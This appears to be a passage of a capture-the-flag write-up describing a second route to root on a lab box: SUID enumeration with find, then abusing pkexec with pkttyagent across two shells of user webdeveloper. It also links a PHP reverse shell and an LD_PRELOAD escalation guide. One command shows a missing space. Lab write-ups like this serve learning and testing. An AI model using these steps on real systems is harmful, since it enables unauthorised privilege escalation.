 # Priviledge Escalation - Second Way

Checking <code class="language-plaintext highlighter-rouge">SUID</code> files we could find <code class="language-plaintext highlighter-rouge">pkexec</code>

<pre>
find / -perm -u=s -type f 2>/dev/null
</pre>

For exploiting we need two shells with user <code class="language-plaintext highlighter-rouge">webdeveloper</code>. As we know the password we can ssh the second time. When I did it i forgot about that fact so I created the second reverse shell (ha-ha) ^_^

First Shell
<pre>
#Get the PID of SSH session
echo $$

#Type after second shell
pkexec/bin/bash
</pre>

<img src="/assets/img/road_img/first-shell.jpg">

Second Shell
<pre>
#Type the PID of the first SSh sesin
pkttyagent -p {PID}

#You need to enter the password here
</pre>

<img src="/assets/img/road_img/second-shell.jpg">


# Userful for me references

<div><a href="https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/">Linux Privilege Escalation using LD_Preload</a></div>
<div><a href="https://github.com/pentestmonkey/php-reverse-shell">PHP Reverse Shell by Pentestmonkey</a></div>
